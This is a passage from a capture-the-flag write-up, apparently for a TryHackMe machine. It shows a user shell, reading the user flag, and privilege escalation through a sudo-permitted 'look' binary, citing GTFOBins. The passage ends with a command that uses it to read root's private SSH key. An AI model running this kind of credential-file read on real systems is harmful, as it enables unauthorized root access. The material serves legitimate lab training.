 ```sh
think@ip-10-10-99-50:~$ id
uid=1000(think) gid=1000(think) groups=1000(think)
```

You now have user flag:
```sh
cat user.txt
```

## 🏴‍☠️ Root flag

### Privilege Escalation

```sh
sudo -l
```
Output:
```sh
(ALL) /usr/bin/look
```
you can check here

<a href="https://gtfobins.github.io/gtfobins/look/" style="display: flex; align-items: center; background-color: #333; padding: 10px; border-radius: 5px; box-shadow: 2px 2px 10px rgba(0, 0, 0, 0.3); color: #fff; text-decoration: none;">GTFOBins | look
  <img src="/images/TryHackMe/gtfobins.png" alt="icon" style="width: 48px; height: 48px; margin-right: 10px;">
  <span style="font-size: 16px;"></span>
</a>

```sh
sudo /usr/bin/look '' "/root/.ssh/id_rsa"
```
